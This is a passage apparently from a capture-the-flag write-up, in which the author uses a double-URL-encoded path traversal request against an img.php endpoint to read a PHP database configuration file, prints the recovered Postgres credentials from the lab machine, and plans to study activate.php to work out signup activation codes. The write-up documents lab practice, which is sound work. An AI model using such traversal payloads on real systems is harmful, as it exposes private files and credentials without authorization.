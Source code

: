 We can also find credentials for Postgre database using following request:
```
/includes/img.php?path=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fvar/www/html/includes/db_connect.php
############################
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```

Unfortunately password does not work anywhere so we have to search further.

We can read `activate.php` to see if we can somehow be able to guess/calculate activation code, which we need while `signup`

![picture 5](/assets/images/f5a42f62a63d6422aec83f11ca8ea56e38c9d9f1172acc0257ec39620af1dd46.png)  
